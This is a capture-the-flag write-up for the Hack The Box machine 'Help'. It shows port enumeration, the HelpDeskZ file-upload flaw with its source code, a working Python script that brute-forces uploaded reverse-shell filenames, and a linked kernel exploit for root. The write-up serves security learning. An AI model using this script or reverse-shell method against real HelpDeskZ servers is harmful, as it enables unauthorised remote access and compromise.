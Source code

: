 # Help - hack the box 

![EFe80A.png](https://s2.ax1x.com/2019/04/21/EFe80A.png)

## Introduction

Target: 10.10.10.121(Linux)

Kali: 10.10.16.28

To be honest, Help is not a difficult box. But there are some rabbit holes in the box. And in some case you may come across some very strange cituations. May you should step back, find is there something wrong. For the priesc of root, never give up trying the most basic method.

## Infomation Enumeration

Firstly, gather open ports and services:

```
# Nmap 7.70 scan initiated Sat Apr 20 02:13:56 2019 as: nmap -sC -sV -oA services 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (1.2s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 20 02:14:40 2019 -- 1 IP address (1 host up) scanned in 43.61 seconds
```

The port 80 seems to be a http service. Aceess to `http://10.10.10.121`, nothing special but just the apache default web page. Try gobuster:

```
gobuster -u http://10.10.10.121 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.tx -t 50
```

We have found a folder called: `support`:

![EFeHtx.png](https://s2.ax1x.com/2019/04/21/EFeHtx.png)

The 80 seems to be help support website. We will find more later.

For the `3000` port, it seems to be a express application. And nothing found for this.

![EFeXcD.png](https://s2.ax1x.com/2019/04/21/EFeXcD.png)

## Exploitation

### http

In the above, we can see `HelpDeskZ` in the web page. It may be a knid of product. Search related exploits, `searchsploit HelpDeskZ`.

![EF0rkt.png](https://s2.ax1x.com/2019/04/21/EF0rkt.png)

There two exploits about `HelpDeskZ`. `Arbitrary File Upload` is interesting, it seems that it can be exploited with valid credentials. The payload can be seen [here](https://www.exploit-db.com/exploits/40300). It's really significant to understand the root cause of the exploit. So know the details of the payload will be benificial.

The step of exploitation is:

1. Access to `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`
2. Fill out all the fields in the web page, and sumit the ticket.
3. Then run the script to exploit.

The script can be exploited, but should take case of some case. I have learned an import lesseon from this box: if you stuck in some case for a long time and has not obtained the expected result. You should step back and see if there is anything wrong.

The reason of the exploit is: when submit a ticket, the attachment will be uploaded. And the uploaded file will be named as `md5(filename+filename_time)`. The source code is as [following](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php#L140):

```php
if(!isset($error_msg) && $settings['ticket_attachment']==1){
	$uploaddir = UPLOAD_DIR.'tickets/';		
	if($_FILES['attachment']['error'] == 0){
		$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
		$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
		$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
		$uploadedfile = $uploaddir.$filename;
		if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
			$show_step2 = true;
			$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
		}else{
			$fileverification = verifyAttachment($_FILES['attachment']);
			switch($fileverification['msg_code']){
				case '1':
				$show_step2 = true;
				$error_msg = $LANG['INVALID_FILE_EXTENSION'];
				break;
				case '2':
				$show_step2 = true;
				$error_msg = $LANG['FILE_NOT_ALLOWED'];
				break;
				case '3':
				$show_step2 = true;
				$error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
				break;
			}
		}
}	
```

The most important code: `$filename = md5($_FILES['attachment']['name'].time()).".".$ext;`. We can found the rule of the name of the uploaded file. So it will be possile to find the uploaded attachment. And there is another stuff, when submited a reverse shell php file, you will get a hint: `File is not allowed`. However, the attachment has been uploaded. Because it will upload the attachment firstly. And then just give the error information.

![EFrlwj.png](https://s2.ax1x.com/2019/04/21/EFrlwj.png)

```php
if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
	$show_step2 = true;
	$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
}else{
	$fileverification = verifyAttachment($_FILES['attachment']);
	switch($fileverification['msg_code']){
		case '1':
		$show_step2 = true;
		$error_msg = $LANG['INVALID_FILE_EXTENSION'];
```

Firstly, submit a ticket with the attachment of `php-reverse-shell.php` and will get error information `File is not allowed`. However, the script has been uploaded actually. 

![EFhf2j.png](https://s2.ax1x.com/2019/04/21/EFhf2j.png)

Then, try to run the script:

```
python exploit.py http://10.10.10.121/support/ a.php
```

In order to decrease the complexity of the md5 hash, the `php-reverse-shell.php` is renamed to `a.php`. However, there are two prblems so that I obtain nothing for the whole afternoon. The first problem is timezone. The uploaded filename depends on the file time. So it is impotant to keep the same timezone for the local machine and the server. We can find that the server timezone is GMT from the response header of Date. So modify the timezone of local machine:

```bash
timedatectl set-timezone GMT
```

After modify the timezone, still have not found anthing. It has some problem with the url. Read the source code and you will find the upload directory should be: `UPLOAD_DIR.'tickets/`:

![EFhSUS.png](https://s2.ax1x.com/2019/04/21/EFhSUS.png)

Hence, the url should be `http://10.10.10.121/support/uploads/tickets/`. So run the script:

`python exploit.py http://10.10.10.121/support/uploads/tickets/ a.php`

I have modified the scritp slightly for my own purpose.

```python
import hashlib
import time
import sys
import requests
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + " time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ":" + str(response.status_code)

print "Sorry, I did not find anything"
```

Remember to set nc listen to port in the begining. After some time, the shell is returned.

![EFhlvR.png](https://s2.ax1x.com/2019/04/21/EFhlvR.png)

## Priv Esc

In contrast to the user shell, the root shell is extremely simple. But the basic method might be overlooked sometimes. Obtain root shell by kernel exploit is uncommon recently. But it never be insignificant to have a try. Obtain the kernel of the linux by `uname a`:

`Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Google for `linux kernel 4.4.0--116`. Congratulations! Find the [payload](https://github.com/SecWiki/linux-kernel-exploits/tree/master/2017/CVE-2017-16995). Just download the payload and compile. After execution, the root shell is obtained.

![EF4Ezd.png](https://s2.ax1x.com/2019/04/21/EF4Ezd.png)



